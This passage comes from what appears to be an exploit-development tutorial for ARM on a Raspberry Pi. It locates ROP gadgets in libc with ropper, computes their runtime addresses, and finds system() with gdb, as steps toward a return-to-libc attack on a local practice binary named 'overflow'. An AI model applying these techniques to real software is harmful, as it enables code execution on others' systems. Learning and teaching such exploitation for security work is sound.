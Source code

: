 We need the first one. So the required offset address is $0x00018164$.

Now, let's add the offset with the base address:
```python
pi@raspberrypi:~$ python3
Python 3.7.3 (default, Dec 20 2019, 18:57:59) 
[GCC 8.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 
>>> hex(0x76e47000+0x00018164)
'0x76e5f164'
>>> 
```
So, our final address for the gadget `pop {r4, pc}` is $0x76e5f164$.


### Address of the 2nd gadget
Now, let's look for the address of the 2nd gadget in similar way.

```bash
pi@raspberrypi:~$ ropper --file /lib/arm-linux-gnueabihf/libc.so.6 --search "ldr r0, [sp, #4]; blx r4"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: ldr r0, [sp, #4]; blx r4

[INFO] File: /lib/arm-linux-gnueabihf/libc.so.6
0x0002d290: ldr r0, [sp, #4]; blx r4;
```
So, we get the offset of the second gadget which is $0x0002d290$.

Now, adding to the base address, we get the final address as $0x76e74290$.


### Address of System()
Let's find the address of the system using `gdb`:
```bash
$ gdb -q ./overflow
    GEF for linux ready, type `gef' to start, `gef config' to configure
    79 commands loaded for GDB 7.12.0.20161007-git using Python engine 3.5
    [*] 1 command could not be loaded, run `gef missing` to know why.
    Reading symbols from ./overflow...(no debugging symbols found)...done.
    gef->  break main
    Breakpoint 1 at 0x104fc
    gef->  run
    Starting program: /home/pi/overflow
    .......................................
    .......................................
    
    gef->  print system
    $1 = {int (const char *)} 0x76e7f9c8 <__libc_system>
```
